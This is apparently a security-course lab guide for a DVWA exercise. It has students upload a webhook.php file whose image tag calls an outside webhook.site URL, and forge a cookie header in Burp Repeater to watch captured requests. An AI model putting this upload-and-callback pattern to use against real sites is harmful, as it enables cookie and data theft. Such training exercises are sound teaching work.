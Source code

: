 # First Steps with Webhook

In this activity, you will exploit an RFI vulnerability using webhooks and BurpSuite.
You will need to open two web browsers for this activity. In one of them, navigate to `http://dvwa.com`. in the other, navigate to your personal Webhook URL.
You will also create a malicious file that you will upload to DVWA.

Use Firefox to navigate to: <https://webhook.site>.

This will give you a unique URL. You will need this later on when you make your file. 

Enable Foxy Proxy, and intercept a request (click **Open In New Tab**) to your unique Webhook URL. Send this request to the Burp Repeater. 
  - Be sure to disable the interceptor after you capture the request.

Then, follow the instructions below.

## Instructions

- Send the intercepted request to Repeater, and press **Go**. Compare the request in Repeater to the Webhook log (which is on the webhook page in Firefox) to familiarize yourself with reading captured requests.

- In Repeater, go to the headers tab and add the following Header: `Cookie: PHPSESSID=FakeSessionID`. Then, press **Go**. Go back to your open webhooks page, and find the cookie that you just passed.

- Create a file called `webhook.php`, Add an image tag like the one below.

  ```html
  <img src="<Your Webhook URL>?example=parameter" >
  ```
  - Replace the word `parameter` with your name. 

- Upload your file with the RFI vulnerability at `localhost/hackable/uploads/`. 

- Browse over to the PHP file by going to `localhost/hackable/uploads/` and then click on your `webhook.php` file. This will launch your PHP script!

- Return to your Webhook log, and find the most recent request. Identify the query parameter that was sent. (It should show `Query strings` then the info directly below that.)
